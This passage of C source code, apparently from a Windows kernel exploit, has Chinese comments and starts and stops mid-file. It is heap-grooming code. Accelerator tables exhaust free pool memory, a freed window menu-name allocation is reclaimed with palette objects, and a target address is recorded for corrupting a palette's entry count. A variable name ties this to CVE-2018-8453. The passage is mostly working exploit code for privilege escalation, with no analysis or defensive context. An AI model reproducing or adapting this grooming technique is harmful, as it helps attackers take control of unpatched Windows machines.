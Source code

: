 ```
    }
 
    ZeroMemory(pLogPalette, dwPalSize);
    memset(pLogPalette, 0x41, dwPalSize);
    pLogPalette->palNumEntries = dwNumEntries;
    pLogPalette->palVersion = 0x300;
 
    // 消耗0x800大小的空余内存
    for (i = 0; i < dwCount; i++)
    {
        // 0x14D * 6 + 0x1C + 0x10 = 0x7CE + 0x1C + 0x10 = 0x7FA = 0x800
        ACCEL accel[0x14D] = { 0 };
        hAccel[i] = CreateAcceleratorTable(accel, 0x14D);
        if (!hAccel[i]) break;
    }
 
    // 申请一块新的0x1000大小MENUNAME并释放掉它
    ULONG64 ulRes = AllocateFreeWindow(0x1000);
    if (!ulRes)
    {
        bRet = FALSE;
        goto exit;
    }
 
    // 占用释放上一步释放的0x1000大小的内存
    hPalette[0] = CreatePalette(pLogPalette);
    hPalette[1] = CreatePalette(pLogPalette);
 
    if (!hPalette[0] || !hPalette[1])
    {
        bRet = FALSE;
        goto exit;
    }
 
    // 用于记录修改cEntries成员的大小
    g_ulTarAddr_2018_8453 = ulRes + 0x2D - 8;
 
exit:
    for (i = 0; i < dwCount; i++)
    {
        if (hAccel[i])
        {
            DestroyAcceleratorTable(hAccel[i]);
            hAccel[i] = NULL;
        }
        else break;
    }
    return bRet;
}
```  
  